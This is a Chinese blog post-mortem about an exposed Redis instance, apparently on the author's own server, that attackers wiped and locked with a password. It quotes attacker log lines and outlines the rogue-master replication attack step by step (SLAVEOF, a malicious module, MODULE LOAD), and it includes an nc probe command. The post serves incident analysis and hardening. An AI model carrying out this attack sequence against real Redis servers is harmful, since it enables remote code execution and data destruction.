

我的开源斗地主服务 [fight-the-landlord](https://github.com/palemoky/fight-the-landlord) 突然崩了。

查看日志，poker 业务容器一直在疯狂报错重启，原因是连不上 Redis，提示需要认证。这就怪了——这个小服务跑了半年多配置从没动过，而且**我自始至终就没给 Redis 设过密码**。

最后排查出来的真相有点啼笑皆非：**Redis 被公网扫描器黑了，并且攻击者给我 Redis 设了密码。** Redis 容器运行了半年没有做任何变更，怎么会突然要密码认证呢？我明明记得 ufw 没有开放 Redis 的端口啊，怎么会被入侵呢？我带着这些疑惑，让 AI 帮我排查了一下故障原因以及影响面，以下是排查过程、攻击原理、后续处理过程。

---

## 案发现场：全在日志里

进了容器先复现问题：启动参数明确写着 `redis-server --appendonly yes`，没有任何密码配置；但只要敲 `redis-cli PING`，立马返回 `NOAUTH Authentication required.`。很明显，密码是被人用 `CONFIG SET requirepass` 动态写进内存的。

翻看 Redis 日志，黑客的一举一动全被记录了下来：

**1. 永不停歇的公网扫描**
日志里躺着上百条这类警告：

```text
# Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. ... Connection from 91.230.168.159:53549 aborted.
```

这说明 6379 端口一直处于全网肉鸡的火力覆盖之下。

**2. 典型的 Rogue Master（恶意主库）攻击**
翻到更早的记录，早在容器刚跑起来第二天（4 月 1 日），就有人动手了：

```text
REPLICAOF 203.57.109.214:60114 enabled (user request from 'addr=165.154.41.120:40840 ... cmd=slaveof')
Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:0
MASTER <-> REPLICA sync: receiving 21816 bytes from master to disk
```

半年后的 10 月 29 日，同样的套路又来了一次：

```text
# Wrong signature trying to load DB from file
# Failed trying to load the MASTER synchronization DB from disk
MASTER MODE enabled (user request from 'addr=106.14.68.206:52302 ... cmd=slaveof ... tot-cmds=11')
```

注意这里的 `addr` 全是外部公网 IP，而不是 Docker 内网的 `172.19.0.x`。这足以证明是外部直接扫到了 Redis 端口，跟业务层的代码漏洞没半毛钱关系。

---

## 攻击手法复盘：Redis 7 救我狗命

这是未授权 Redis 最经典的打法——**伪造主从同步 RCE（Rogue Master Attack）**：

1. 脚本全网扫到没有认证的 6379；
2. 发送 `SLAVEOF <攻击者IP> <端口>`，强制把你的 Redis 变成他的从库；
3. 攻击者的“伪主库”假装全量同步，把一个编译好的恶意动态链接库（`.so`）伪装成 RDB 文件发过来，让受害者写入磁盘；
4. 调用 `MODULE LOAD` 把这个 `.so` 加载进 Redis 进程，直接拿到系统命令执行权限；
5. 最后执行 `SLAVEOF NO ONE` 切回主库，擦屁股走人。

日志里的细节也印证了上述过程：

- `Full resync from master: ZZZZ...:0` 这种全 Z 的 Replication ID，是伪造主库工具的祖传特征。
- `Wrong signature` 是因为发过来的压根不是正经 RDB，受害者解析失败，但这在黑客预期之内——只要文件落盘了就行。

**但我这台机器为什么没沦陷为肉鸡？**

总是保持新版带来的好运——我用的是较新的 Redis 8 镜像。**Redis 7.0 开始引入了一个默认配置：`enable-module-command no`。**
攻击脚本在执行第 4 步 `MODULE LOAD` 时直接撞墙被拒，想用 `CONFIG SET` 去改 `dir` 或写入计划任务也被安全策略拦住。

最终攻击者只做成了一件事：在主从同步前，Redis 先执行了 `Flushing old data`，把我这几个月的战绩数据清空了；顺便设了个密码，把业务容器直接干宕机。

---

## 根因剖析：Docker 到底是怎么越过 ufw 的？

我服务器一直开着 ufw，且从未允许过 6379。那这个请求是怎么进来的？

直接在外面打一条命令：

```bash
printf 'PING\r\n' | nc 服务器公网IP 6379
```

居然能直挺挺地拿到 `-NOAUTH` 响应。

问题不在 ufw 的配置上，而在于 **Netfilter 的数据包流向**。



当你在 compose 里写下 `ports: "6379:6379"` 时，Docker 会在 iptables 的 `nat` 表 **PREROUTING** 链强行插入一条 DNAT 规则：把发往宿主机 6379 的流量，在路由决策前直接改写目的地址为容器内部 IP（如 `172.19.0.2:6379`）。

这一改写导致数据包的目的地变成了“其他主机”，内核会把它分流到 **FORWARD** 链，根本不走宿主机的 **INPUT** 链。而我们平时用 `ufw allow/deny` 设定的规则，绝大部分都挂在 **INPUT** 链上。

也就是说，Docker 在底层开辟了一条绿色通道，ufw 连看一眼这个数据包的机会都没有。`ufw status` 显示得再岁月静好，底层也早就被打穿了。

---

## 怎么善后？

### 1. 宿主机与容器排查

虽然确认攻击在 `MODULE LOAD` 那步失败了，但以防万一还是全盘过了一遍：

- 容器内只挂载了 `/data` 卷，没有挂载宿主机根目录；
- 容器进程以 uid 999 运行，未发现提权和挖矿进程；
- 宿主机 `/etc/cron.*` 无异常，CPU 负载正常，无异常对外长连接；
- **唯一的受害者就是数据**：10 月 29 日前的数据全丢了（不过只是个斗地主小玩具，丢了就丢了吧）。

另外排查时还发现一个小坑：**当 Redis 报 `NOAUTH` 时，`redis-cli ping` 的退出码依然是 0！** 这导致 Docker 的 healthcheck 一直以为容器很健康，在业务容器不断报错重启时毫无反应。

### 2. 正确的加固配置

修复原则其实就一条：**既然是内部数据库，压根就不该暴漏给宿主机。**

在同一个 Docker Compose 网络下，业务容器直接用 `redis:6379` 这个内网域名通信即可，完全不需要在 compose 里写 `ports`。

同时，加上长随机密码作为纵深防御，写入根目录 `.env`（权限设为 600）：

```bash
echo "REDIS_PASSWORD=$(openssl rand -hex 24)" >> .env
chmod 600 .env
```

更新后的 `docker-compose.yml`：

```yaml
poker:
  environment:
    - REDIS_PASSWORD=${REDIS_PASSWORD}

redis:
  image: redis:8-alpine
  # 彻底移除 ports 映射！
  environment:
    - REDISCLI_AUTH=${REDIS_PASSWORD} # 让容器内命令行调试自动带密码
  command: redis-server --appendonly yes --requirepass ${REDIS_PASSWORD:?REDIS_PASSWORD 未设置}
  healthcheck:
    # 必须 grep PONG，不能只靠退出码
    test: ["CMD-SHELL", "redis-cli ping | grep -q PONG"]
```

直接重建 Redis 容器。黑客设的密码只存在于内存，由于没有配置文件，它执行不了 `CONFIG REWRITE`，一旦重新创建容器就彻底灰飞烟灭了。

---

## 顺藤摸瓜：排查其他隐患与排错插曲

既然知道了 Docker 会越过 ufw，我赶紧把整台机子的容器都翻了一遍：

```bash
docker ps --format '{{.Names}}\t{{.Ports}}'
docker compose config | grep -E 'published|host_ip'
```

不查不知道，一查冷汗又出来了：PostgreSQL 的 `5432` 和 frps 面板的 `7501` 也赫然在列。幸好这几个服务没开，否则迟早也是活靶子。

**插曲：修完之后，我差点被本地代理给骗了**
修完配置后，我在自己电脑上用 `nc -z 服务器IP 6379` 测试，结果屏幕上赫然出现 `succeeded`。

当时心里一凉，以为没改对。但登录服务器 `ss -tln` 查，6379 确实没有任何监听。

排查了一圈才发现是**本机开了 Clash 的 TUN 模式**。在 TUN 模式下，本地虚拟网卡会先替远端完成 TCP 三次握手，再去尝试建联真正的服务。用 `nc -z` 去扫任何根本没开的端口（比如 6390），它全都返回成功。

把测试命令改成带数据收发的才测准：

```bash
printf 'PING\r\n' | nc -w 5 服务器IP 6379
# 无任何返回，超时退出，确认端口已封死
```

---

## 几个血的教训

1. **永远别迷信 UFW 管得住 Docker。** 只要 compose 里敢写 `"6379:6379"`，就是全网裸奔。真要映射给宿主机排错，老老实实写 `"127.0.0.1:6379:6379"`。
2. **多容器走虚拟局域网。** 业务容器和数据库在同一个 network 里用服务名互联即可，数据库容器不需要任何宿主机端口映射。
3. **永远加一道密码防线。** 哪怕是内网服务，强密码也是配置翻车时的最后一道兜底网。
4. **Healthcheck 别只信 Exit Code。** 像 Redis 认证失败这种场景，命令本身执行成功（返回码 0），但服务实际上已经凉了，必须断言返回文本。
5. **服务无缘无故挂了，且你很久没动过代码——** 别总怀疑系统 bug，去日志搜搜看，大概率是有人改了东西。
